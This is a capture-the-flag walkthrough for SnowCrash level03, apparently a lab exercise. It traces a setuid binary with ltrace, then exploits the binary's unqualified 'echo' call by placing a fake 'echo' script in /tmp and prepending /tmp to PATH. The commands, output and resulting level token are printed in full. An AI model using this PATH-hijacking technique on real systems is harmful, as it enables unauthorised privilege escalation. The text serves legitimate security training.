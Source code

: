 # level03

We found an executable file in home directory.

```bash
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

there are several ways to solve this level like using GDB disassemble main but the fastest is to use the `ltrace` command

``` bash
level03@SnowCrash:~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                           = 2003
geteuid()                                                           = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                 = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                 = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                              = 0
+++ exited (status 0) +++
level03@SnowCrash:~$

```

After seeing the vulnerability that is to execute a command without the absolute path, there are several solutions like making a symbolic link, using a script ...

```bash
level03@SnowCrash:~$ ls
level03
level03@SnowCrash:~$ echo "/bin/bash -c 'getflag'" > /tmp/echo
level03@SnowCrash:~$ cat /tmp/echo
/bin/bash -c 'getflag'
level03@SnowCrash:~$ ls -l /tmp/echo
-rw-rw-r-- 1 level03 level03 23 Feb 13 23:56 /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ 
```
----
______
```bash
┌──$ level01@SnowCrash:~$ su level04
└─> Password:  `qi0maab88jeaj46qoumi7maus`
```
